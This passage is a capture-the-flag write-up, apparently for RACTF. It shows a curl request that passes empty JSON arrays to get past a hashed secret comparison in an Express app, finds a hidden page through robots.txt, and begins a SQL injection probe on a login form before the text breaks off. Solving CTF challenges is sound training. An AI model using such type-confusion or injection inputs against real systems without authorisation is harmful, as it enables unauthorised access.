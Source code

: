 ``` javascript
    if (!one || !two)
        return res.send("400")
    if ((one.length !== two.length) || (one === two))
        return res.send("Strings are either too different or not different enough")
    one = customhash.hash(secret_key + one)
    two = customhash.hash(secret_key + two)
    if (one == two)
        return res.send(flag)
    else
        return res.send(`${one} did not match ${two}!`)
})

app.listen(port, () => console.log(`Listening on port ${port}`))
```

To connect to this challenge, we use `curl`:

``` bash
> curl -H "Content-Type: application/json" -d '{"one":"abc","two":"xyz"}' -X POST http://88.198.219.20:60254/getflag
8c8811e4d989cb695491dd9f75f72df6 did not match df86fa719ecb791ad0ce93e93d616378!
```

To solve this challenge, we request:
``` bash
> curl -H "Content-Type: application/json" -d '{"one":[],"two":[]}' -X POST http://88.198.219.20:60254/getflag
ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}
```

Why it work ?

`req.body.one` and `req.body.two` exist

`one` and `two` have the same size because both are empty array (`0`)

And `one` and `two` don't have the same value because there are two different objects (see Object-oriented programming)

However, an empty array casted in string return nothing, so `secret_key + one` and `secret_key + two` are same and therefore the same for their hash

The flag is `ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}`

## Quarantine - Hidden information
```We think there's a file they don't want people to see hidden somewhere! See if you can find it, it's gotta be on their webapp somewhere...```

There is a hidden file which not supposed seen

The only files which are not supposed to be seen are listed in the `Disallow` fields in robots.txt file

And, there is a file `robots.txt`
```
User-Agent: *
Disallow: /admin-stash
```

The disallowed file is admin-stash and in it, we can see the flag: `ractf{1m_n0t_4_r0b0T}`

## Quarantine
```See if you can get access to an account on the webapp.```

At the website, we have a basic login form with username and password

When we logged with `'` as username and an empty password, the website return an Internal Server Error, so there is a SQL vulnerability

```